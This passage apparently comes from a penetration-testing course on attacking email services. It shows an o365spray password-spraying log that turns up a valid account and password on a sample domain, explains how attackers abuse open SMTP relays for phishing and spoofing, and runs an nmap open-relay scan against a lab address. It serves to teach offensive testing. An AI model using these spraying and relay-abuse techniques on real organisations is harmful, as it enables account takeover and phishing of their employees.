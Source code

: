 ```shell-session
   > start          :  2022-04-14 12:26:31

>----------------------------------------<

[2022-04-14 12:26:31,757] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-14 12:26:32,201] INFO : [VALID] The following domain is using O365: msplaintext.xyz
[2022-04-14 12:26:32,202] INFO : Running password spray against 2 users.
[2022-04-14 12:26:32,202] INFO : Password spraying the following passwords: ['March2022!']
[2022-04-14 12:26:33,025] INFO : [VALID] lewen@msplaintext.xyz:March2022!
[2022-04-14 12:26:33,048] INFO : 

[ * ] Writing valid credentials to: '/opt/o365spray/spray/spray_valid_credentials.2204141226.txt'
[ * ] All sprayed credentials can be found at: '/opt/o365spray/spray/spray_tested_credentials.2204141226.txt'

[2022-04-14 12:26:33,048] INFO : Valid Credentials: 1
```

---

## Protocol Specifics Attacks

An open relay is a Simple Mail Transfer Protocol (`SMTP`) server, which is improperly configured and allows an unauthenticated email relay. Messaging servers that are accidentally or intentionally configured as open relays allow mail from any source to be transparently re-routed through the open relay server. This behavior masks the source of the messages and makes it look like the mail originated from the open relay server.

#### Open Relay

From an attacker's standpoint, we can abuse this for phishing by sending emails as non-existing users or spoofing someone else's email. For example, imagine we are targeting an enterprise with an open relay mail server, and we identify they use a specific email address to send notifications to their employees. We can send a similar email using the same address and add our phishing link with this information. With the `nmap smtp-open-relay` script, we can identify if an SMTP port allows an open relay.

Attacking Email Services

```shell-session
frank-106@htb[/htb]# nmap -p25 -Pn --script smtp-open-relay 10.10.11.213

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-28 23:59 EDT
Nmap scan report for 10.10.11.213
Host is up (0.28s latency).

PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-open-relay: Server is an open relay (14/16 tests)
```

Next, we can use any mail client to connect to the mail server and send our email.
